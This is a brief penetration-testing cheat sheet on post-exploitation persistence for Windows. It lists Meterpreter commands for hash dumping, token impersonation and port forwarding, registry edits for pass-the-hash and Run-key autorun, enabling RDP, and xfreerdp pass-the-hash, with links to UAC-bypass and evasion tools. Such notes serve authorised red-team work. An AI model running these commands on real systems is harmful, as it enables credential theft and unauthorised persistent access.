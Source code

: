 # Persistence

## [⬅ Back to Index](../README.md)

---

## General

### Metasploit (General)

* Execute programs - `execute -f /program -i -c`
* Local Port forward - `portfwd add -l 8080 -p 80 -r x.x.x.x`

## Windows

### Enable psexec usage (Pass-The-Hash)

* `reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1`

### Autorun

* `reg setval -k HKLM\software\microsoft\windows\currentversion\run -d "<exe>" -v <name>`

### Metasploit (Win)

* Dump hashes:
  * `hashdump`
  * `run post/windows/gather/smart_hashdump`
* Enable RDP (currently supported method) - `run post/windows/manage/enable_rdp`
* Impersonation - `use incognito` -> `list_tokens -u` -> `impersonate_token <delegate>`

### Other Scripts / Git Resources

* [UACME - UAC Bypass Techniques](https://github.com/hfiref0x/UACME)
* [Veil-Evasion (Veil 3+)](https://github.com/Veil-Framework/Veil)
* RDP Clients for Linux:
  * `rdesktop`
  * `xfreerdp /u:user /pth:<hash> /v:x.x.x.x` (RDP with Pass-The-Hash functionality - "freerdp-x11" in package manager)
